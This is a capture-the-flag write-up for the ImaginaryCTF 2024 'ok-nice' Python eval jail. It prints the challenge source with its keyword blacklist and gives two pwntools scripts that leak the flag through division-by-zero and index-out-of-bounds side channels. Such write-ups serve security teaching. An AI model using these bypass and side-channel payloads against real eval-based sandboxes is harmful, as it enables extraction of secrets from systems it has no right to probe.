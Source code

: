 ## ImaginaryCTF 2024 ok-nice

```python
#!/usr/bin/env python3
flag = open('flag.txt').read()

print("Welcome to the jail! It is so secure I even have a flag variable!")
blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
while True:
	inp = input("Enter input: ")
	for i in blacklist:
		if i in inp:
			print("ok nice")
			exit(0)
	for i in inp:
		if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
			print("ok nice")
			exit(0)
	try:
		eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
		print("ok nice")
	except:
		print("error")
```

Requirements:

1. No numbers: Use `True` as 1
2. Exception side channel: Use integer division by zero or array out of bounds to guess each character
3. `len(set(input)) <= 17`: Reuse characters already appeared

Side channel: `1 // (ord(flag[index]) - i)` throws exception when `ord(flag[index]) == i`.

Attack script:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "ok_nice.py"])

flag = bytearray()
for index in range(1, 40):
    flag_index = "+".join(["True"] * index)
    for i in range(0x20, 0x7F):
        p.recvuntil(b"input: ")
        minus = "-".join(["True"] * i)
        p.sendline(f"True//(ord(flag[{flag_index}])-{minus})".encode())
        res = p.recvline().strip()
        if res == b"error":
            # zero
            flag.append(i)
            break
print(flag)
```

Alternatively, learned from [official writeup](https://github.com/ImaginaryCTF/ImaginaryCTF-2024-Challenges/blob/main/Misc/ok-nice/README.md), use array out of bounds as side channel to leak each character e.g. `[True,True][ord(flag[True])]`:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "ok_nice.py"])

flag = bytearray()
for index in range(1, 40):
    flag_index = "+".join(["True"] * index)
    for i in range(0x20, 0x7F):
        p.recvuntil(b"input: ")
        array = ",".join(["True"] * i)
        p.sendline(f"[{array}][ord(flag[{flag_index}])]".encode())
        res = p.recvline().strip()
        if res == b"ok nice":
            # no longer out of bounds
            flag.append(i - 1)
            break
print(flag)
```
